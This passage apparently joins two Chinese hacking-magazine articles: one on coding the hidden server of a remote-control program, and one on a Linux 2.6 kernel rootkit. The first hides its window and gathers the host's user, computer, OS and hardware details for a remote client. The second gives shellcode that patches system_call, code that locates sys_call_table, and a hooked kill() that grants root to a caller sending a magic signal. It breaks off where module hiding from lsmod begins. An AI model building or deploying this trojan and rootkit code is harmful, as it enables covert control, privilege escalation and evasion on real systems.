其中，ATOM 是一个 16 位的整型值，在 Windows 中用来表示一个字符串。Windows 系统会维护一种叫做 atom table 的东西，里面存储了每个 atom 以及其对应的字符串。在调用 RegisterClass 时，函数就会返回一个 atom 值，这个 atom 就对应着你注册的类名字符串。HINSTANCE 表示实例的句柄。

在 RegisterMainWndClass() 函数中有如下代码：

```cpp
1.  WNDCLASSEX wcex;
2.  wcex.cbSize = sizeof(WNDCLASSEX);
3.  wcex.style = CS_HREDRAW | CS_VREDRAW;
4.  wcex.lpfnWndProc = (WNDPROC)MainWndProc;
5.  wcex.cbClsExtra = 0;
6.  wcex.cbWndExtra = 0;
7.  wcex.hInstance = hInstance;
8.  wcex.hIcon = LoadIcon(hInstance, (LPCTSTR)IDI_PEERSERVER);
9.  wcex.hCursor = LoadCursor(NULL, IDC_ARROW);
10. wcex.hbrBackground = (HBRUSH)(COLOR_WINDOW);
11. wcex.lpszMenuName = NULL;
12. wcex.lpszClassName = "PeerServer";
13. wcex.hIconSm = LoadIcon(wcex.hInstance, (LPCTSTR)IDI_SMALL);
14. return RegisterClassEx(&wcex);
```

其中，第 1 行声明了 WNDCLASSEX 结构的变量 wcex。WNDCLASSEX 结构包含了 Windows 类的信息。第 2 行设置了 WNDCLASSEX 结构的大小。第 3 行设置了类的风格，CS_HREDRAW 表示如果横向移动客户区或者客户端的宽度发生改变，则重新绘制整个窗口；CS_VREDRAW 表示如果纵向移动客户区或者客户端的高度发生改变，则重新绘制整个窗口。第 4 行指定了窗口消息处理函数，WNDPROC 表示 32 位指针，该指针指向窗口消息处理函数，MainWndProc() 函数是自定义函数，作为服务端窗口的例程函数。第 5 行中的 cbClsExtra 表示用来设置窗口类结构的特殊字节的数量，初始化值为 0。第 6 行中的 cbWndExtra 表示用来设置窗口实例的特殊字节的数量，初始化值为 0。第 7 行指定了实例的句柄，该实例包含了要注册类的窗口函数，hInstance 是 RegisterMainWndClass() 函数的参数，在 WinMain() 函数中，我们是将 WinMain() 函数中的第 1 个参数作为 RegisterMainWndClass() 函数的参数来使用的。前面已经设置了该窗口类的函数是 MainWndProc()，而包含该函数实例的句柄正是 WinMain() 函数中的 hInstance。第 8 行指定了该类图标的句柄，LoadIcon() 函数从服务端程序例程 hInstance 中导出了名为 IDI_PEERSERVER 的图标资源。第 9 行指定了类光标的句柄，由于为 Win32 程序预定义光标，因此 LoadCursor() 函数的第 1 个参数必须设置为 NULL，第 2 个参数 IDC_ARROW 表示导出的是标准的箭头光标。第 10 行指定了类背景的画刷，COLOR_WINDOW 表示窗口背景的颜色。第 11 行指定了类菜单的名称，因为在服务端窗口中没有用到菜单项，因此把该成员变量设置为 NULL。在第 12 行中把创建的窗口类的名称设置为“PeerServer”。第 13 行指定了窗口类的小图标的句柄，也就是当窗口最小化时显示图标的句柄。第 14 行调用 RegisterClassEx() 函数对窗口类进行注册，该函数的参数是 WNDCLASSEX 结构的指针，wcex 是在第 2~13 行中设置好的变量。

接下来我们对自定义的窗口函数 MainWndProc() 进行编写。

## 3. 编写 MainWndProc() 函数

窗口函数 MainWndProc() 的作用是处理窗口接收到的消息。对于接收到的不同消息，窗口函数 MainWndProc() 进行不同的处理。首先在 `PeerServer.cpp` 执行文件的起始位置声明 `MainWndProc()` 函数。

```cpp
LRESULT CALLBACK MainWndProc(HWND hWnd,
UINT message, WPARAM wParam, LPARAM lParam);
```

`MainWndProc()` 通过 switch…case 语句进行消息的判断：

```cpp
switch (message)
{
    case WM_CREATE:
    ......
    case WM_PAINT:
    ......
    case WM_CLOSE:
    ......
    case WM_DESTROY:
    ......
}
```

以上代码对 `MainWndProc()` 函数的第 2 个参数 `message` 进行判断，对于服务端程序窗口接收到的不同消息，该函数进行不同的处理。

当应用程序调用 `CreateWindowEx()` 函数或者 `CreateWindow()` 函数创建窗口时，`WM_CREATE` 消息将被发送。当应用程序窗口接收到 `WM_CREATE` 消息后，完成对客户端通过套接字连接请求的处理。该处理过程通过自定义函数 `AcceptThread()` 实现，`AcceptThread()` 的编程过程我们稍后讲解。

在 `case WM_CREATE` 语句中，首先调用 `InitializeCriticalSection()` 函数初始化临界区（critical section）对象：

```cpp
InitializeCriticalSection(&csProtectList);
```

其中，`csProtectList` 是 `CRITICAL_SECTION` 变量。接下来调用 `CreateEvent()` 函数创建事件对象。

```cpp
hPrepareEvent = CreateEvent(NULL, FALSE, TRUE, NULL);
```

`CreateEvent()` 函数的第 1 个参数 `NULL` 表示事件对象的句柄不能被继承；第 2 个参数 `FALSE` 表示在等待线程被释放后，系统自动将事件对象的状态设置为“未传信”；第 3 个参数 `TRUE` 表示事件对象的初始状态设置为“已传信”；第 4 个参数 `NULL` 表示创建的事件对象没有名称，返回值是创建事件对象的句柄，`hPrepareEvent` 是句柄变量。

接下来调用自定义 `BeginPeerThread()` 函数实现多线程调用 `AcceptThread()` 函数。

```cpp
hAcceptThread =
    BeginPeerThread(AcceptThread, NULL,
&uAcceptThreadID);
```

其中，`BeginPeerThread()` 函数在 `PeerThread.h` 头文件中声明，相当于调用了 `_beginthreadex()` 函数。因此，在菜单栏中的“工程”下拉菜单中选择“设置”，在“工程设置”对话框中选择“C/C++”选项卡，在“分类”中选择“Code Generation”，在“Use run-time library”中选择“Debug MultiThreaded”来支持多线程。

在 `AcceptThread()` 函数中，在创建、绑定和监听套接字之后，将 `hPrepareEvent` 的状态设置为“已传信”。因此，在调用了 `AcceptThread()` 函数之后，通过 `hPrepareEvent` 的状态来判断套接字的操作是否完成：

```cpp
WaitForSingleObject(hPrepareEvent, 60000);
```

`WaitForSingleObject()` 函数检查指定对象的当前状态。第 1 个参数表示指定对象的句柄，第 2 个参数表示函数等待的时间。只有指定对象的状态变为“已传信”，或者超过了等待时间，函数才返回。而指定的 `hPrepareEvent` 的状态变为“已传信”，则说明服务端的套接字完成了创建、绑定和监听的动作。

接下来将 `hPrepareEvent` 的状态设置为“未传信”，等待下次使用该事件对象：

```cpp
ResetEvent(hPrepareEvent);
```

##### 4. 主窗体的创建

回到 `WinMain()` 函数中，在注册完窗口类之后，调用自定义函数 `CreateMainWindow()` 创建应用程序的主窗口。

在 `CreateMainWindow()` 函数中，调用 `CreateWindow()` 函数创建程序的主窗口：

```cpp
hMainWnd = CreateWindow("PeerServer", "混合模式服务端", WS_OVERLAPPEDWINDOW,
CW_USEDEFAULT, 0, CW_USEDEFAULT, 0, NULL,
NULL, hInstance, NULL);
```

其中，第 1 个参数表示注册类的名称，“PeerServer”类是在 `RegisterMainWndClass()` 函数中注册的类，也就是说使用新注册的类来创建程序主窗口；第 2 个参数表示创建的窗口的名称。第 3 个参数表示创建窗口的类型，WS_OVERLAPPEDWINDOW 表示创建的是一个重叠窗口；第 4 个参数表示创建窗口的初始水平位置，CW_USEDEFAULT 表示创建窗口的左上角使用默认坐标。第 5 个参数表示创建窗口的初始垂直位置，当第 4 个参数设置为 CW_USEDEFAULT 时，则忽略第 5 个参数，因此该参数设置为 0。第 6 个参数表示窗口的宽度，CW_USEDEFAULT 表示系统将创建的窗口设置为默认的宽度和高度。第 7 个参数表示窗口的高度，当第 6 个参数设置为 CW_USEDEFAULT 时，则忽略第 7 个参数，因此该参数设置为 0；第 8 个参数表示创建窗口的父窗口的句柄，NULL 表示创建的窗口没有父窗口；第 9 个参数表示程序中菜单的句柄或者是子窗口的标识符，因为在服务端程序中既没有用到菜单又没有用到子窗口，因此该参数设置为 NULL；第 10 个参数表示与窗口关联的模块实例的句柄，hInstance 是服务端程序模块的句柄；第 11 个参数表示传递给窗口的值，因为没有值传递给窗口，因此该参数设置为 NULL。CreateWindow() 函数的返回值是创建窗口的句柄，hMainWnd 是 HWND 类型的变量。通过以上代码，我们为新注册的窗口类“PeerServer”创建了一个新的窗口，也就是服务端程序的主窗口，如果该窗口接收到 WM_CREATE 消息，则完成套接字的一系列操作。

接下来通过 ShowWindow() 函数设置服务端窗口的显示状态：

```cpp
ShowWindow(hMainWnd, SW_HIDE);
```

其中，第 1 个参数表示窗口的句柄，hMainWnd 用于 CreateWindow() 建立的窗口句柄；第 2 个参数表示窗口如何显示，SW_HIDE 表示隐藏该窗口。这一点很容易理解，大家都希望服务端隐藏运行，因此要把服务端窗口运行的状态设置为隐藏。

最后调用 UpdateWindow() 函数重新画出窗口的客户区：

```cpp
UpdateWindow(hMainWnd);
```

接下来我们看一下服务端是如何完成套接字操作的。

#### 套接字操作的线程

前面我们已经提到，AcceptThread() 函数完成了套接字的操作。我们在 PeerThread.h 头文件中声明该函数。

```cpp
UINT WINAPI AcceptThread(PVOID pParam);
```

在 PeerThread.cpp 执行文件中，首先通过自定义的函数 PeerCreateSocket()、PeerBindSocket() 和 PeerListenSocket() 等完成套接字的创建、绑定和监听。以上 3 个函数在《基于混合模型的远程控制软件客户端编写》一文中已经详细介绍，这里不再赘述。

## WSAEventSelect 模型

在《基于混合模型的远程控制软件客户端编写》一文中我们提到，混合模型的客户端使用的是 select 与 I/O 重叠事件通知的混合模型。在等待套接字传递数据时使用 select 模型，在真正的数据传输时使用 I/O 重叠事件通知模型。

在服务端中，等待数据传输时使用 WSAEventSelect 模型。WSAEventSelect 模型与 WSAAsyncSelect 模型相似，当网络事件发生时，应用程序都可以接收网络通知。但是，系统通知应用程序的形式不同。在之前的文章中我们提到，WSAAsyncSelect 模型以消息的形式通知应用程序，而 WSAEventSelect 模型以事件的形式通知应用程序。

WSAEventSelect 模型与重叠 I/O 事件通知模型都是以事件的形式通知应用程序的。但是 WSAEventSelect 模型在等待数据时是非阻塞的，而真正发送或接收数据时则是阻塞的；而在《基于混合模型的远程控制软件客户端编写》一文中我们可以看到，重叠 I/O 事件通知模型无论是等待数据还是发送或接收数据时都是非阻塞的。

##### 1. 事件对象的创建与注册

如果在等待数据传输的过程中使用 WSAEventSelect 模型，则首先要创建事件对象。

```cpp
WSAEVENT hNetEvent = WSACreateEvent();
```

接下来调用 WSAEventSelect() 函数为套接字注册网络事件：

```cpp
WSAEventSelect(s, hNetEvent, FD_ACCEPT);
```

其中，WSAEventSelect() 函数的第 1 个参数是套接字的标识符，s 是之前创建、绑定和监听的套接字标识符；第 2 个参数是要注册的网络事件的句柄，hNetEvent 是之前创建的事件对象句柄；第 3 个参数表示应用程序感兴趣的网络事件，FD_ACCEPT 表示在套接字上有来自客户端的连接，准备接收该连接。以上代码的作用是：当有客户端通过指定的套接字连接服务端时，事件对象 hNetEvent 的状态由“未传信”变为“已传信”。我们可以根据 hNetEvent 的状态判断是否有客户端连接服务端。

但是，我们还需要继续判断是该数组中哪个成员的状态发生了变化，即判断在指定套接字上发生的动作是服务端退出程序还是有客户端连接。

当为套接字注册完网络事件之后，也就是准备工作完成，这时需要将事件对象 hPrepareEvent 的状态变为“已传信”：

```c
SetEvent(hPrepareEvent);
```

在之前的窗口消息处理函数 MainWndProc() 中我们已经提到，在调用了 AcceptThread() 函数之后，使用 WaitForSingleObject() 函数判断 hPrepareEvent 的状态，如果 hPrepareEvent 在指定的等待时间内一直是“未传信”，则说明此监听线程没有客户端的连接，该线程需要被 CleanupThread() 函数清除。接下来通过事件对象状态的判断来确定发生在指定套接字上的操作。

##### 2. 事件对象状态的判断

通过 WSAWaitForMultipleEvents() 函数判断指定事件对象的状态：

```c
WSAWaitForMultipleEvents(2, hEvents, FALSE,
WSA_INFINITE, FALSE);
```

其中，WSAWaitForMultipleEvents() 函数的第 1 个参数表示要判断状态的事件对象的数量，2 表示有两个需要判断其状态的事件对象；第 2 个参数表示事件对象句柄的指针，hEvents 是包含两个 WSAEVENT 变量的数组，第 1 个变量是 hExitEvent，表示服务端退出事件，第 2 个变量是 hNetEvent，表示有客户端连接的事件；第 3 个参数 FALSE 表示只要事件对象数组中有一个元素的状态变为“已传信”，函数就返回；第 4 个参数 WSA_INFINITE 表示如果没有事件对象的状态变为“已传信”，函数将一直等待下去；第 5 个参数主要用于重叠 I/O 模型，因此，在 WSAEventSelect 模型中将该参数设置为 NULL。以上代码的作用是：当在服务端套接字上有客户端连接服务端或者服务端程序退出时，与其对应的事件对象的状态会发生改变。如果 WSAWaitForMultipleEvents() 函数返回，则说明是事件对象数组 hEvents 中成员的状态变为“已传信”。

```c
WSAEnumNetworkEvents(s, hNetEvent,
&NetworkEvents);
```

WSAEnumNetworkEvents() 函数的作用是查找发生在指定套接字上的网络事件，并将事件对象的状态设置为“未传信”。该函数的第 1 个参数是指定套接字的标识符，第 2 个参数表示被设置为“未传信”的事件对象的句柄，hNetEvent 是有客户端连接服务端的网络事件的句柄，将 hNetEvent 的状态设置为“未传信”的作用是使得服务端可以继续接收来自客户端的连接；第 3 个参数是结构 WSANETWORKEVENTS 的指针，WSANETWORKEVENTS 结构包含了发生在套接字上的网络事件以及相关的错误代码，通过 WSAEnumNetworkEvents() 函数查询到的发生在指定套接字 s 上的网络事件就包含在 NetworkEvents 中。

##### 3. 接受连接与接收数据

如果在指定套接字上发生的是有客户端连接时，则调用 WSAAccept() 函数接收该连接：

```c
if(NetworkEvents.lNetworkEvents == FD_ACCEPT)
{
    WSAAccept(s, NULL, NULL, NULL, NULL);
}
```

接收了客户端连接之后，接下来应该是接收来自客户端的数据。我们是通过自定义函数 ServerThread() 完成客户端数据接收的。

```c
BeginPeerThread(ServerThread, &ConnectSocketInfo,
&dwNewThreadID);
```

其中，BeginPeerThread() 是自定义函数，该函数的作用是完成多线程调用。BeginPeerThread() 的第 1 个参数是自定义函数 ServerThread()，用来接收来自客户端的数据；第 2 个参数是自定义结构 CONNECTSOCKET 的指针，该结构包含套接字和 IP 地址两个成员变量，在使用 BeginPeerThread() 函数之前，我们已经把 WSAAccept() 函数的返回值赋值给了该结构变量的 socket，也就是表示套接字的成员变量了。

第3个参数表示线程的ID。

## 重叠I/O事件通知模型

前面已经提到，服务端使用重叠I/O事件通知模型与客户端进行数据交换，也就是说，`ServerThread()` 函数主要是实现重叠I/O事件通知模型的。

##### 1. 函数的声明

在 `PeerThread.h` 头文件中对 `ServerThread()` 函数进行声明：

```cpp
UINT WINAPI ServerThread(PVOID pParam);
```

##### 2. 数据的接收

在《基于混合模型的远程控制软件客户端编写》一文中我们提到，重叠I/O事件通知模型是通过事件来通知应用程序。因此，在使用重叠I/O事件通知模型之前，要通过 `WSACreateEvent()` 函数创建事件对象：

```cpp
WSAEVENT hEvent = WSACreateEvent();
```

在《基于混合模型的远程控制软件客户端编写》一文中我们还提到，客户端在连接请求被接受以后，首先向服务端发送一个指令，该指令是自定义 `COMMAND` 结构的。因此，在服务端中接受了客户端请求后，首先要接收来自客户端的指令数据。

```cpp
PeerRecvDataS(s, (char*)&command, sizeof(command), &retLen, hEvent, 120000);
```

其中，`PeerRecvDataS()` 函数是自定义函数，该函数是基于重叠I/O事件通知模型的。第1个参数表示用于接收数据的套接字；第2个参数是用于保存接收数据的缓冲区的指针，`command` 是指令结构 `COMMAND` 的变量；第3个参数是缓冲区的大小；第4个参数表示接收到的数据量；第5个参数作为接收数据完毕的事件对象，如果接收数据完毕，则该事件对象的状态变为“已传信”；第6个参数是等待的时间，`120000` 表示2分钟。

在接收到客户端的指令数据之后，接下来应该对该指令进行分析，对于不同的指令应进行不同的处理。

##### 3. 指令的处理

我们使用 `switch...case` 语句对接收到的指令进行处理：

```cpp
switch (command.CommandID)
{
case PEER_SYSTEM_INIT:
    SYSTEMINIT si;
    if (GetPeerSystemInfo(si))
        PeerSendDataS(s, (char*)&si, sizeof(si), &retLen, hEvent, 120000);
    break;
}
```

其中，`command` 的成员变量 `CommandID` 为客户端发送的指令。在《基于混合模型的远程控制软件客户端编写》一文中我们提到，客户端向服务端发送指令 `PEER_SYSTEM_INIT`，表示客户端需要得到服务端的处理器、硬盘、操作系统等信息。如果接收到的指令是 `PEER_SYSTEM_INIT`，则调用自定义函数 `GetPeerSystemInfo()` 得到本机（服务端）的信息。然后调用自定义函数 `PeerSendDataS()`，采用重叠I/O事件通知模型的方式，将得到的信息数据传递给客户端。接下来我们对自定义函数 `GetPeerSystemInfo()` 进行编写。

##### 4. 服务端信息的获取

- 服务端计算机名的获取  
- 服务端用户名的获取  
- 服务端操作系统版本的获取  

程序调用 `GetComputerName()` 函数获取服务端的计算机名：

```cpp
GetComputerName(computerbuf, &computersize);
```

程序通过 `GetUserName()` 函数获取服务端的用户名：

```cpp
GetUserName(userbuf, &usersize);
```

程序通过 `GetVersionEx()` 函数获取服务端的操作系统：

```cpp
GetVersionEx(&osvi);
```

其中，`osvi` 是 `OSVERSIONINFO` 结构的对象。`OSVERSIONINFO` 结构包含了操作系统的版本信息。对 `osvi` 的成员变量 `dwPlatformId` 进行判断，如果值是 `VER_PLATFORM_WIN32_NT`，则说明服务端的操作系统是基于 Windows NT 的 Win32 操作系统，该操作系统包括 Windows 2000（版本号为5.0）、Windows XP（版本号为5.1）和 Windows Server 2003（版本号为5.2），以及版本号不高于4.0的一些操作系统；如果值是 `VER_PLATFORM_WIN32_WINDOWS`，则说明服务端的操作系统是基于 Windows 95 或 Windows 98 的 Win32 操作系统，包括 Windows 95（版本号为4.0）、Windows 98（版本号为4.1）以及 Windows ME（版本号为4.9）等。

- 服务端磁盘信息的获取

程序通过 `GetDiskFreeSpaceEx()` 函数获取服务端磁盘信息：

```cpp
GetDiskFreeSpaceEx(driver, (PULARGE_INTEGER)&freebyte, (PULARGE_INTEGER)&ulltotalspace, (PULARGE_INTEGER)&ullfreespace);
```

其中，第1个参数表示磁盘的路径；第2个参数表示指定磁盘中用户能够使用的“未使用”的字节数；第3个参数表示指定磁盘中用户能够使用的字节数；第4个参数表示磁盘中“未使用”的字节数。通过该函数获取的数据再经过一系列运算，就可以获取服务端的磁盘信息了。

- 服务端处理器信息的获取

程序通过查询注册表来获取服务端处理器的信息：

```cpp
RegOpenKeyEx(HKEY_LOCAL_MACHINE,
"HARDWARE\\DESCRIPTION\\System\\CentralProcessor\\0",
0, KEY_QUERY_VALUE, &hKey);

RegQueryValueEx(hKey, "VendorIdentifier", NULL,
NULL, (LPBYTE)szcpuinfo, &dwBufLen);
```

其中，`RegOpenKeyEx()` 函数的主要作用是打开指定的注册表项，`RegQueryValueEx()` 函数的作用是查询指定注册表项中的子项键值。以上代码的作用是查询注册表中 `HKEY_LOCAL_MACHINE\\HARDWARE\\DESCRIPTION\\System\\CentralProcessor\\0` 项中 `VendorIdentifier` 子项的值，该值即为服务端处理器的信息。

- 服务端内存信息的获取

程序通过 `GlobalMemoryStatus()` 函数获取服务端的内存信息。

```cpp
GlobalMemoryStatus(&ms);
```

其中，`ms` 是 `MEMORYSTATUS` 结构的对象。`MEMORYSTATUS` 结构包含了物理内存和虚拟内存的当前状态。使用 `GlobalMemoryStatus()` 函数将获取的服务端内存信息都保存在 `ms` 中。

#### 消息循环

在 `PeerServer.cpp` 执行文件的入口函数 `WinMain()` 中，我们已经通过调用 `CreateMainWindow()` 完成了服务端窗口的创建，接下来完成的是窗口接收消息的步骤。

```cpp
while (GetMessage(&msg, NULL, 0, 0))
{
    TranslateMessage(&msg);
    DispatchMessage(&msg);
}
```

其中，第1行的 `while` 语句中的 `GetMessage()` 函数的作用是在调用线程的消息队列中获取一个消息，并把该消息放入指定的结构中。`GetMessage()` 函数的第1个参数是一个 `MSG` 结构的指针；第2个参数表示窗口句柄，`NULL` 表示获取属于调用线程的任意窗口消息；第3、4个参数表示获取消息的最小值与最大值。第3行 `TranslateMessage()` 将虚拟键盘消息转换成字符消息，第4行 `DispatchMessage()` 将消息发送给服务端窗口的例程函数。

以上我们就完成了混合模型服务端的编写。从上面的分析可以知道，混合模型的服务端采用的是 `WSAEventSelect` 模型和重叠I/O事件通知模型。在等待数据发送的过程中使用的是 `WSAEventSelect` 模型，在数据发送和接收的过程中使用的是重叠I/O事件通知模型，如图1所示。

由于篇幅限制，本文只讲解了获取服务端信息的过程。对于上传文件、下载文件、屏幕监控等过程的实现，只能在以后的时间学习了。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：C

关键词：编程、Root权限、系统调用

## Linux下挂载系统调用实现Root权限的新思路

文／图 小小彬

对操作系统有所了解的读者应该知道，Ring3下的用户程序若要访问内核数据结构，需要调用操作系统为其提供的系统调用函数来实现 Ring3 至 Ring0 级别的切换。在 Linux 2.4 内核中，用户态程序在请求内核态资源完成特定功能时，CPU 首先需要从中断描述表 IDT 中取出对应的门描述符；判断门描述符种类（中断门、陷阱门、调用门），然后检查门描述符的级别，即 DPL 与 INT 指令调用者的级别。若 INT 指令级别高于 DPL，系统正式开始执行 `int $0x80` 指令，CPU 切换到内核态，将系统调用号存入到 `%eax` 寄存器中，而系统调用的各参数则依次存入 `ebx`、`ecx` 等通用寄存器中；转而执行 `system_call()` 函数，将寄存器 `%eax` 压入堆栈，执行 `SAVE_ALL` 宏，即所谓的保护现场，然后会检测当前的进程是否具有执行此系统调用的权限，若是，才会 `call` 到 `sys_call_table()` 函数中，找到正确的系统调用处理程序，执行相应的系统调用。

整个系统调用过程实际上浪费了大量的 CPU 周期。一般而言，使用系统调用的用户总为 Ring3 态的应用程序（当然 Hacker 在内核态下也可能执行系统调用），此时 CPL 为3，而 `INT 0x80` 指令的 DPL 也一定为3，故前面的检查权限级别完全可以忽略。在 Linux 2.6 内核下，引入了 `sysenter/sysexit` 指令，这些指令的实现省略了特权级别检查以及各寄存器的入栈操作。

然而，在 Linux 2.6 内核下，同样兼容 `int 0x80` 中断方式。故我们在对某些系统调用进行 Hook 操作时，就需要考虑两种情形。随着 Rootkit 技术的不断发展，对 Rootkit 的检测技术也在不断地提高，如通过替换 `sys_call_table` 数组中的系统调用函数指针方式，已经基本上被 Hacker 们放弃了。尽管 Linux 2.6 内核设计者为了防止这种恶意的修改，对内核进行了 patch，使得 `sys_call_table` 不再导出。

笔者最近在 `http://www.fr33project.org` 上看到一篇十分新颖的文章，即 Rootkit for Linux 2.6-enyelkm，在不改变 `sys_call_table` 和 IDT 的内容下，实现了特定系统调用的重定向、进程和网络连接的隐藏以及远程控制（有别于一般的远程控制，此 Rootkit 是将攻击方的机器实现为 Server 端，“肉机”为 Client 端，这种方式能够有效地躲避防火墙的通用检测）。本文主要分析如何在不修改 `sys_call_table` 和 IDT 内容的前提下，实现系统调用的重定向并有效地提升用户的权限。

#### 核心技术分析

如何在不修改 `sys_call_table` 的条件下，实现系统调用的拦截呢？我们回到 `system_call` 函数上来分析。在 `/arch/i386/kernel/entry.S` 下可以查看到 `system_call` 汇编代码，部分内容如下：

```c
ENTRY(system_call)
SAVE_ALL
GET_THREAD_INFO(%ebp)
testl $TF_MASK,EFLAGS(%esp)
jz no_singlestep
orl $TF_SINGLESTEP,TI_flags(%ebp)
no_singlestep:
testw $(_TIF_SYSCALL_EMU|_TIF_SYSCALL_TRACE|_TIF_SECCOMP|_TIF_SYSCALL_AUDIT),TI_flags(%ebp)
jnz syscall_trace_entry
cmpl $(nr_syscalls), %eax
// 判断系统调用号是否合法
jae syscall_badsys
syscall_call:
call *sys_call_table(,%eax,4)
// 调用此函数
movl %eax,EAX(%esp) # store the return value
```

正常情况下，我们只需要获取到 `sys_call_table` 指针值，即可通过 `orig_func=sys_call_table[__NR_NUM]; sys_call_table[__NR_NUM]=hook_func` 两条语句简单实现系统调用的拦截。从上面的 `system_call` 汇编代码，我们可以看到 `cmpl $(nr_syscalls),%eax; jae syscall_badsys` 两条指令，前者占5字节，后者占6字节。当给定合法的系统调用号时，它们是不会执行的。因而我们可以修改这两条指令，有效利用11字节空间来存放我们自己的跳转代码（注：其实这种技术 riq 已经提及过，只不过是修改的地方不一致，riq 修改的是系统调用函数前面几个字节的内容，但在性能上比较，修改上面的11字节更加稳定，因为并不是每个系统调用的前几个字节均一致）。

为了有效替换这11字节的内容，这里构造了一段 shellcode 代码，shellcode 中涉及的所有函数地址（包括 `syscall_badsys`、`syscall_call` 和需要重定向的系统调用函数）均用 `nop` 指令即 `0x90` 填充。Shellcode 代码如下：

```c
char idt_handler[] = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x3d\x12\x01\x00\x00\x73\x02\xeb\x06\x68\x90\x90\x90\x90\xc3\x83\xf8\x25\x74\x06\x68\x90\x90\x90\x90\xc3\xff\x15\x90\x90\x90\x90\x68\x90\x90\x90\x90\xc3";
```

其中 `\x3d\x12\x01\x00\x00` = `cmp $(nr_syscalls), %eax`，即判断系统调用号是否正确；`\x73\x02` = `jae +2`，如果 `%eax >= nr_syscalls`，则跳过下面2个字节的指令，执行错误系统调用处理函数。`\xeb\x06` = `jmp +6`，跳过下面2条指令（`push + ret`，共6字节）。在 JMP 指令执行前，需要执行 `pushl` 指令保存相关寄存器内容，然后执行 `ret` 指令调用出错处理函数。在 `\x68\x90\x90\x90\x90\xc3` 机器码中，`\x90\x90\x90\x90` 表示的地址即为 `syscall_badsys` 地址。

`\x83\xf8\x25` = `cmp $0x25,%eax`，检测系统调用是否是我们想要重定向的 `SYS_kill`（0x25）系统调用。`\x74\x06` = `je +6`，如果是则跳过下面2条指令（`push + ret`，共6字节）。`\x68\x90\x90\x90\x90\xc3` = `pushl 0x90909090`、`ret`，在这里 `0x90909090` 表示的地址为 `system_call` 函数代码中的 `call *sys_call_table(,%eax,4)` 指令的地址，即 `syscall_call` 的地址。系统调用不是我们想要 Hook 的 `kill` 系统调用时，则将控制返回到中断处理函数中。为了不影响其他系统调用的执行，我们应该跳转到 `syscall_call`。

`\xff\x15\x90\x90\x90\x90` = `call *0x90909090`，即需要 Hook 的系统调用。本文的截获函数使用 `sys_kill` 函数即 0x25 号系统调用，故此地址需要替换为我们的 `Hook_func` 函数地址。`\x68\x90\x90\x90\x90\xc3` = `pushl 0x90909090`、`ret`，在执行完我们自己的系统调用之后，必须将控制权交还给系统，因此 `0x90909090` 表示的地址即为 `call sys_call_table *(%eax,4)` 之后的指令。

我们需要对 shellcode 的4个位置进行修改，替换成上面分析的函数地址。

从前面的分析可知，除了我们需要替换的函数地址外，其他函数地址都是原始函数地址，即 `ENTRY(system_call)` 函数中的函数指针地址值。那么如何找到这些函数指针的值呢？显然，还是老办法，首先通过 asm（`sidt %0` : : "=m" (idtr)）指令读取 idtr 寄存器内容，进一步算出中断描述符表 IDT 结构地址，从而获取 `system_call` 地址值。然后采用 Hacker 们惯用的手法，从此地址值开始，在 `ENTRY(system_call)` 函数中搜索特定指令对应的地址值，以寻找相关函数的地址值。为了准确定位到 `cmpl $(nr_syscalls), %eax` 指令处，我们选择 `jae syscall_badsys` 对应的部分值作为搜索条件进行匹配（注：前面给出的机器码，我们可以通过 `objdump -d ./system` 命令将 `system.asm` 生成的可执行程序 dump 成 opcode，即可获取对应的机器码，然后优化出上述 shellcode）。

由前面的分析可知，我们还需获取 `sys_call_table` 地址值，因为需要在执行完 Hook 函数代码后，回到原指令处继续执行，即将控制权交回系统。如何获取 `sys_call_table` 地址值，这里不再赘述，大家可参考第6期《Linux下劫持系统调用的几种方式》一文。OK，分析就这么多了，接下来看代码剖析吧。

#### 代码剖析

- 获取 `system_call` 函数地址。

```c
void *get_system_call(void)
{
    struct idt_descriptor *pidt;
    struct _idtr idtr;
    asm("sidt %0" : "=m" (idtr));
    pidt = (void *)((unsigned int*)idtr.base);
    // 获得 IDT 描述符结构的地址
    return (void*)(((unsigned int)pidt[0x80].off_low)
         | ((unsigned int)(pidt[0x80].off_high)<<16));
    // 获得 system_call 函数地址
}
```

- 获取 `sys_call_table` 地址值。

```c
void *get_sys_call_table(void *system_call){
    unsigned char *p;
    unsigned long s_c_t;
    p = (unsigned char *)system_call;
    while (!((*p == 0xff) && (*(p+1) == 0x14) && (*(p+2) == 0x85))) p++;
    p += 3;
    s_c_t = *((unsigned long *)p);
    // s_c_t 即为 sys_call_table 地址值
    p += 4;
    /* 保存 call sys_call_table *(%eax,4) 语句之后的指令地址值，
       便于在 Hook 函数执行完毕后，重新回到此指令处继续执行 */
    after_call[IDT] = (unsigned long)p;
    return((void *)s_c_t);
}
```

- 填充 shellcode 中的 NOP 指令值，劫持 `sys_kill` 系统调用。

```c
void set_idt_handler(void *system_call)
{
    unsigned char *p;
    unsigned long offset, *p2;

    p = (unsigned char *)system_call;
    /* 搜索指令 "jae syscall_badsys" */
    while (!((*p == 0x0f) && (*(p+1) == 0x83))) p++;
    p += 2;
    // 跳过 jae 指令共 2 字节
    offset = *((unsigned long *)p);
    // 保存 syscall_badsys 函数指针值
    orig_bad_sys[IDT] = (unsigned long)offset;

    /* 获取 syscall_call 函数指针值，因 jae syscall_badsys 占 6 个字节 */
    syscall_call[IDT] = (unsigned long)((p - 2) + 6);
    p = (unsigned char *)(syscall_call[IDT] - 0xb);
    // 返回到 cmpl $(nr_syscalls), %eax
    *p++ = 0x68;
    p2 = (unsigned long *)p;
    *p2++ = (unsigned long)((void *)&idt_handler[5]);

    p = (unsigned char *)p2;
    *p = 0xc3;
    p = idt_handler;

    /* 修改 shellcode 中的 4 处 NOP 指令，替换为需要保存或者修改的函数指针值 */
    *((unsigned long *)((void *)p + ORIG_BADSYS)) = orig_bad_sys[IDT];
    *((unsigned long *)((void *)p + SYSCALL_CALL)) = syscall_call[IDT];
    *((unsigned long *)((void *)p + DCALL)) = (unsigned long)&p_hacked_kill;
    *((unsigned long *)((void *)p + DAFTER_CALL)) = after_call[IDT];
}
```

- 我们自行定义的 `hooked_kill` 函数。

```c
asmlinkage int hooked_kill(pid_t pid, int sig)
{
    struct task_struct *ptr = current;
    int tsig = SIG, tpid = PID, ret_tmp;
    if ((tpid == pid) && (tsig == sig))
    {
        ptr->uid  = 0;  ptr->euid = 0;
        ptr->gid  = 0;  ptr->egid = 0;
        return(0);
    }
}
```

```c
else
{
    ret_tmp = (*orig_kill)(pid, sig);
    return ret_tmp;
}
return -1;
}
```

（5）为了有效躲避 lsmod 等命令的检测，需要隐藏此模块。

```c
int hide_module()
{
